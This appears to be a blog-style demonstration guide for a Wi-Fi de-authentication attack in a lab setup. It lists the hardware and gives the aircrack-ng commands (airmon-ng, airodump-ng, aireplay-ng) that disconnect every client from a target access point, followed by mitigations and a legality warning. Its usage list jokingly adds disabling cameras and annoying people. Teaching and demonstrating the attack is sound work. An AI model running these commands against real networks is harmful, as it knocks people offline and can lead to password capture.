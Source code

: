 ```yaml
---
title: Wi-Fi De-Authentication Attack Demonstration
date: 2023-07-02T19:03:55.149Z
tags:
  - demo
  - informative
description: A supporting document for performing a Wi-Fi De-Authentication
  attack in a controlled environment.
---
```

<!--StartFragment-->

Hardware Pre-requisites. Specific to this example, any equivalent hardware will be fine.

* GL mango router
* Raspberry Pi with Wi-Fi capabilities
* Ethernet cable (for connecting the Pi an the mango)
* Laptop with a wireless interface device capable of sending de-authentication frames. This typically requires an external Wi-Fi adapter with specific chipset support, such as the Alfa AWUS036NHA ([Link](https://www.amazon.co.uk/Alfa-Network-AWUS036NHA-U-MOUNT-CS-DBi/dp/B01D064VMS/ref=asc_df_B01D064VMS/?tag=googshopuk-21&linkCode=df0&hvadid=310776295886&hvpos=&hvnetw=g&hvrand=8206363845483223267&hvpone=&hvptwo=&hvqmt=&hvdev=c&hvdvcmdl=&hvlocint=&hvlocphy=9045569&hvtargid=pla-563714733276&psc=1))

### Technical Overview

A Wi-Fi de-authentication attack is a type of denial of service attack that targets the 802.11 wireless protocol. The attack forces client devices to disconnect from a Wi-Fi network by sending forged de-authentication frames to a target device, which appear to be legitimate frames sent by the access point. The target device, having been disconnected from the network, will then try to re-authenticate with the access point, which can result in a repeated process of disconnections and reconnections. During this time, it is possible to capture the WPA2 authentication handshake between the device and the access point and retrieve the password hash for the access point. This hash can then be cracked offline and you can retrieve the plaintext password of the access point. This is out of scope for this demonstration but tools such as `Wifite` exist to perform this attack.

The de-authentication frame contains the MAC address of the access point and the client, along with a reason code indicating why the client device was de-authenticated from the network.

* MAC Address - A unique identifier assigned to a network interface controller

In this example, clients will connect to the GL mango router, which will be connected via ethernet cable to a Raspberry Pi, which will be hosting a basic demonstration web application. The demonstrator will instruct client to go to the address of the Raspberry Pi web application (DNS optional to facilitate this), then will perform a de-authentication attack on the GL router, forcing all of the clients to disconnect from the router. When the clients attempt to refresh the page being hosted on the Raspberry Pi, it will not work, as they are no longer on the network. Below is a network diagram which describes the hardware setup.

![](/img/diagram.png)

### Performing the De-Authentication Attack

Performing the de-authentication attack is very easy. First you must install the `aircrack-ng` suite. Also, ensure that the wireless adapter capable of packet injection is plugged into the attacking machine.

```shell
$ sudo apt-get install aircrack-ng # Install aircrack-ng suite
$ iwconfig # This will list wireless interfaces, check yours is there
# Put the interface into monitor mode
$ sudo airmon-ng start wlan1 6 # Syntax may vary -
# - Wlan1 is interface to use, use channel 6
# Dump information of nearby APs
$ sudo airodump-ng wlan1mon
```

![](/img/cmd-output.png)

The output of the `airodump-ng` command will look like this. The only bits you are interested in are `ESSID,` which is the SSID of the router / access point, and `BSSID` which is the corresponding MAC address. Make a note of the MAC address of the target AP. Take a note of the channel, sometimes the attack will error and that will help later, if it does.

```shell
# Assume target MAC of target AP is: aa:bb:cc:dd:ee:ff
# Perform the attack
$ sudo aireplay-ng -0 0 -a aa:bb:cc:dd:ee:ff wlan1mon
# All client devices will now be disconnected from the network.
```

In some cases, you may get an error such as:

* wlan1mon is on channel X, but the AP uses channel Y.

In this case, you can:

* Physically re-connect the adapter, and retry the attack.
* Run the following command and CTRL+C out of the output straight away

```shell
$ sudo airodump-ng wlan1mon --bssid aa:bb:cc:dd:ee:ff --channel <ROUTER_CHANNEL_HERE>
# This will switch the channel, you can know run the attack with no issue.
```

Below is a basic graphical representation of what the attack is doing.

![](/img/diagram-2.png)

### Usage

* To test security of wireless networks - checking that devices reconnect to the network securely.
* Red-teaming - sneaking into buildings, disable cameras (just a thought, maybe not practical)
* To annoy people

### Mitigations

1. “Management Frame Protection” was introduced by Cisco. In essence, the process adds a hash value to all management frames that are sent (like a checksum, to ensure validity and integrity). Widely adopted and implemented, but Apple still appears to be the holdout.
2. From the relevant WiFi standard:

   > “De-authentication is not a request; it is a notification. De-authentication shall not be refused by either party

   There is no real way to prevent such an attack. Faraday cages and tinfoil hats only!
3. Using a strong WiFi password (PSK) can prevent attacks wherein the handshake is captured and the password hash cracked.
4. Reduce signal strength - reduces range of attack for a de-authentication attack.

It is important to understand that performing a de-authentication attack on a network without permission is illegal and can result in criminal and civil penalties. It is important to ensure that you have explicit permission form the network owner before attempting any such demonstration. It is also essential to be aware of the laws and regulations in your jurisdiction relation to cyber security and network attacks.
